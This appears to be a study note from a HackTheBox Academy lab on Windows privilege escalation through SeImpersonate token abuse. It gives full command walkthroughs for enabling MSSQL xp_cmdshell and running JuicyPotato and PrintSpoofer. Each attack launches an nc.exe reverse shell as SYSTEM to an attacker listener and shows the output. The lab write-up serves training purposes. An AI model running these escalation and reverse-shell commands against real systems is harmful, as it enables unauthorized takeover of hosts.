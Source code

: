 # Potato Impersonation Attack

This is from the [Windows Privilege Escalation](https://academy.hackthebox.com/module/67/section/2501) course on the HackTheBox Academy site.

- Legitimate programs may utilize another process's token to escalate from Administrator to Local System, which has additional privileges.
- Processes generally do this by making a call to the `WinLogon` process to get a `SYSTEM` token, then executing itself with that token placing it within the SYSTEM space.
- Attackers often abuse this privilege in the "Potato style" privesc - where a service account can `SeImpersonate`, but not obtain full SYSTEM level privileges.
- Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.
- We will often run into this privilege after gaining remote code execution via an application that runs in the context of a service account (for example, uploading a web shell to an ASP.NET web application, achieving remote code execution through a Jenkins installation, or by executing commands through MSSQL queries).
- Whenever we gain access in this way, we should immediately check for this privilege as its presence often offers a quick and easy route to elevated privileges.
- This [paper](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt) is worth reading for further details on token impersonation attacks.

## `JuicyPotato`

### **Connecting with MSSQLClient.py**

- Using the credentials `sql_dev:Str0ng_P@ssw0rd!`, let's first connect to the SQL server instance and confirm our privileges. We can do this using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the `Impacket` toolkit.

```bash
Kamino@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-authImpacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162)
[!] Press help for extra shell commands
SQL>

```

### **Enabling `xp_cmdshell`**

- Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands.
- We can do this via the `Impacket` MSSSQL shell by typing `enable_xp_cmdshell`.
- Typing `help` displays a few other command options.

```bash
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install

```

Note: We don't actually have to type `RECONFIGURE` as `Impacket` does this for us.

### **Confirming Access**

- With this access, we can confirm that we are indeed running in the context of a SQL Server service account.

```bash
SQL> xp_cmdshell whoami

output

--------------------------------------------------------------------------------

nt service\mssql$sqlexpress01
```

### **Checking Account Privileges**

- Next, let's check what privileges the service account has been granted.

```bash
SQL> xp_cmdshell whoami /priv

output

--------------------------------------------------------------------------------

PRIVILEGES INFORMATION

----------------------
Privilege Name                Description                               State

============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

- The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed.
- This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`.
- [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

### **Escalating Privileges Using `JuicyPotato`**

- To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server.
- Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call.
- Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```bash
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output

--------------------------------------------------------------------------------

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375

[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
[+] calling 0x000000000088ce08
```

### **Catching SYSTEM Shell**

- This completes successfully, and a shell as `NT AUTHORITY\SYSTEM` is received.

```bash
Kamino@htb[/htb]$ sudo nc -lnvp 8443listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system

C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

## **`PrintSpoofer` and `RoguePotato`**

- `JuicyPotato` doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.
- However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.
- This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### **Escalating Privileges using `PrintSpoofer`**

- Let's try this out using the `PrintSpoofer` tool.
- We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command.
- Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```bash
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```

### **Catching Reverse Shell as SYSTEM**

If all goes according to plan, we will have a SYSTEM shell on our netcat listener.

```bash
Kamino@htb[/htb]$ nc -lnvp 8443listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```
